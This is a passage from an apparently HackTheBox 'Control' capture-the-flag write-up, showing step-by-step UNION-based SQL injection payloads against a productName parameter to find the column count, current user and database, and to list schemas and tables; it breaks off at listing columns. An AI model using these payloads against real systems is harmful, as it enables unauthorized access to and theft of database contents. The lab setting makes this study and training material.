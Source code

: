Selecting 6 columns works fine without any error, meaning there are 6 columns present at the database:

`productName=Asus+USB-AC53+Nano' UNION SELECT 1,2,3,4,5,6;-- -`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-21.png)

#### Current user and database

Using the command below, I can query current database and user which is **warehouse** and **manager@localhost**:

`productName=Asus USB-AC53+Nano' UNION SELECT database(),user(),3,4,5,6;-- -`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-23.png)

#### List Database

I can list databases using the command below: **information_schema**, **mysql**, **warehouse**

`productName=Asus USB-AC53 Nano' UNION SELECT group_concat(schema_name),2,3,4,5,6 from information_schema.schemata;-- -`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-24.png)

#### List Tables

I can list tables inside the database as such:

`productName=Asus USB-AC53 Nano' UNION SELECT group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema='warehouse';-- -`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/control/image-25.png)

#### List columns

I can list coulmns inside table as such:
